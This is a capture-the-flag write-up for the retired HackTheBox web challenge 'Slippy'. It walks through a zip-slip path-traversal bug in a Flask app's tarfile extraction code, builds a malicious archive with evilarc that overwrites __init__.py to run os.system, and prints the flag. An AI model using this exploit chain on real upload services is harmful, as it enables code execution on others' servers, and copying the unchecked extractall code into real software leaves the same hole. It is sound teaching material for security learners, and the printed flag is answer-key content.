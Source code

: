 ```yaml
---
Category: Web
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - RCE
  - __init__.py
  - code-review
  - flask-debug_mode
  - path-traversal
  - python-code-injection
  - python-tarfile
  - zip-slip
  - flask
YT video overview: https://www.notion.so/Exploit-Zip-Slip-vulnerability-in-python-tarfile-HackTheBox-Slippy-a403d0b32b4941509b9da3904d970237
---
```

>[!quote]
> *You've found a portal for a firmware upgrade service, responsible for the deployment and maintenance of rogue androids hunting humans outside the tractor city. The question is... what are you going to do about it?*


# Set up

Run the [build-docker.sh](http://build-docker.sh) script

```bash
$ ./build-docker.sh
Error: No such container: web_slippy
Sending build context to Docker daemon  821.2kB
Step 1/11 : FROM python:3-alpine
3-alpine: Pulling from library/python
40e059520d19: Pull complete
4f950178bcec: Pull complete
1d594d4d0bf4: Pull complete
8e36cd7b5f33: Pull complete
0b8007321b2d: Pull complete
...
Successfully tagged web_slippy:latest
2022-03-31 21:15:23,691 INFO Set uid to user 0 succeeded
2022-03-31 21:15:23,695 INFO supervisord started with pid 1
2022-03-31 21:15:24,702 INFO spawned: 'flask' with pid 7
 * Serving Flask app 'application.main' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on all addresses (0.0.0.0)
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://127.0.0.1:1337
 * Running on http://172.17.0.2:1337 (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 757-360-259
2022-03-31 21:15:26,416 INFO success: flask entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
```

# Information Gathering

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe.png)

Application accepts only **tar.gz** files

>[!error]
> This file could not be uploaded, please make sure the file is a valid tar.gz archive!

Uploading a valid **tar.gz** the application unzip the archive’s content and allows to browse files (like a directory listing) 

```xml
tar -czvf file.tar.gz test.txt
```

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%201.png)

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%202.png)

Application code that unzip the archive:

```python
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)

        extracted_filenames = []

        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                filename = f'{extractdir}/{name}'
                os.rename(os.path.join(tmp, name), filename)
                extracted_filenames.append(filename)
                continue
            
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)

        tar.close()
        return extracted_filenames

    return False
```

# The Bug

- [https://mail.python.org/pipermail/python-dev/2007-August/074290.html](https://mail.python.org/pipermail/python-dev/2007-August/074290.html)
- [https://bugs.python.org/issue21109](https://bugs.python.org/issue21109)
- [https://snyk.io/research/zip-slip-vulnerability](https://snyk.io/research/zip-slip-vulnerability)

The application does not check for path traversal vulnerability, so it’s possible to force the application into parsing a malicious archive containing a file with multiple “../” that will be stored into an arbitrary folder.

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%203.png)

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%204.png)

# Exploitation

Tool to generate malicious archives:

`tar -czvf files.tar.gz --absolute-names '../../../../../tmp/test.txt'`

[evilarc/evilarc.py at master · ptoomey3/evilarc](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)

Related article: [Exploiting insecure file extraction in Python for code execution](https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution)

**util.py**

```python
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
...
```

**run.py**

```python
from application.main import app

app.run(host='0.0.0.0', port=1337, debug=True, use_evalex=False)
```

**exploit.py**

```python
import os
os.system('cp /app/flag* /app/application/static/archives/flag.txt')
```

Generate the malicious **tar.gz** using **evilarc:**

```python
$ python2 evilarc.py __init__.py -f evil.tar.gz -o unix -p app/application/
Creating evil.tar.gz containing ../../../../../../../../app/application/__init__.py
```

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%205.png)

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%206.png)

# Flag

>[!success]
>`HTB{i_slipped_my_way_to_rce}`

## Video

<iframe width="660" height="415" src="https://www.youtube.com/embed/8eXutSxYhOQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
